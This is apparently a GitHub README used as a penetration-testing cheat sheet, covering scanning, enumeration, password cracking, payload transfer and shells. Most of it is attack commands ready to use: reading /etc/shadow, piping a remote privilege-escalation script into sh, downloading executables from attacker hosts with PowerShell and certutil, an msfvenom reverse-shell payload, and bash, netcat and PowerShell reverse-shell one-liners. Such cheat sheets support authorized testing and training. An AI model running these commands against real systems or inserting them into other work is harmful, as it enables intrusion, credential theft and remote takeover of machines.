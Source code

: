 ## Scanning and Enumeration

#### NMAP
`nmap -sn IP_range`<br>
`nmap -p- -sS -iL Live_Hosts_List`<br>
`nmap -sV -sC -p Open_Ports -iL Live_Hosts_List`<br>

<img width="300" alt="NMAP_top_ports" src="https://github.com/ErvinTista/Paris/assets/13991872/85159f37-8f60-489e-b515-7a8f4c77e8d7">

#### DNS Enumeration
`host domain`<br>
`host -t mx domain`<br>
`host -t txt domain`<br>
`dnsrecon -d domain -t std`<br>
`dnsenum domain`<br>
`nslookup -type=TXT domain IP`<br>

#### TCP/UDP Port Scan
`nc -nvv -w -z IP port-port`<br>

#### SMB Enumeration
`nmap -v -p 139,445 --script smb-os-discovery IP`<br>

#### Web Enumeration
`sudo nmap -p80 --script=http-enum -sV IP` <br>
`gobuster dir -u IP -w /usr/share/wordlists/dirb/common.txt -t 5`<br>
`feroxbuster --url domain --depth 2 --wordlist /usr/share/wordlists/dirb/common.txt -x .txt,.jpg`<br>

#### Linux Enumeration
`whoami`<br>
`hostname`<br>
`id`<br>
`cat /etc/passwd`<br>
`cat /etc/shadow`<br>
`cat /etc/os-release`<br>
`uname -a`<br>
`ip a`<br>
`ifconfig`<br>
`route`<br>
`history`<br>
`netstat -ano`<br>
`crontab -l`<br>
`cat /etc/cron*`<br>
`sudo -l`<br>
`env`<br>
`cat /etc/profile`<br>
`cat /etc/bashrc`<br>
`cat ~/.bash_profile`<br>
`cat ~/.bashrc`<br>
`ps -elf`<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
`find / -perm -4000 -user root -exec ls -ld {} \; 2> /dev/null`<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`<br>

## Exploit

#### Password Cracking
`hashcat -a 0 -m #hash_type hash.txt dictionary_list.txt`<br>

#### Transfers
`PS iwr -uri http://attacker.IP/met.exe -Outfile met.exe`<br>
`powershell wget -Uri http://attacker_IP/name.exe -OutFile C:\destination\directory\name.exe`<br>
`certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`<br>

## Pivoting and Tunneling

## Persistence

## Shells and One Liners
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=IP.Addr.es.ss LPORT=443 -f exe -o staged_reverse_tcp.exe`

`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

## Resources and Links
|Description|Link|
|-----------|----|
|Linux Privesc|https://payatu.com/blog/a-guide-to-linux-privilege-escalation/|
|LinWinMacPEAS|https://github.com/carlospolop/PEASS-ng|
